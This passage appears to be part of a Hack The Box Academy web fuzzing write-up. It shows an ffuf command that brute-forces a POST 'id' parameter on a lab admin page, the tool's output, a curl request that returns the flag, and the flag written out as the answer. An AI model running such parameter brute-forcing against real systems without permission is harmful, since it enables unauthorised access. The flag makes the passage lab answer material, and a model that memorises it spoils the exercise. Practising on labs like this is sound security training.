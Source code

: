 *Hint: It is in the form of HTB{flag},*

```
┌──(kali㉿kali)-[~]
└─$ ffuf -w ids.txt:FUZZ -u http://admin.academy.htb:31005/admin/admin.php -X POST -d 'id=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -fs 768

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : POST
 :: URL              : http://admin.academy.htb:31005/admin/admin.php
 :: Wordlist         : FUZZ: ids.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : id=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 768
________________________________________________

73                      [Status: 200, Size: 787, Words: 218, Lines: 54, Duration: 69ms]
:: Progress: [1000/1000] :: Job [1/1] :: 607 req/sec :: Duration: [0:00:01] :: Errors: 0 ::
```

```
┌──(kali㉿kali)-[~]
└─$ curl http://admin.academy.htb:31005/admin/admin.php -X POST -d 'id=73' -H 'Content-Type: application/x-www-form-urlencoded'
<div class='center'><p>HTB{p4r4m373r_fuzz1n6_15_k3y!}</p></div>
<html>
(...)
```

**Answer:** `HTB{p4r4m373r_fuzz1n6_15_k3y!}`

---
## Skills Assessment - Web Fuzzing
### Question 1:
![](./attachments/Pasted%20image%2020220702112830.png)
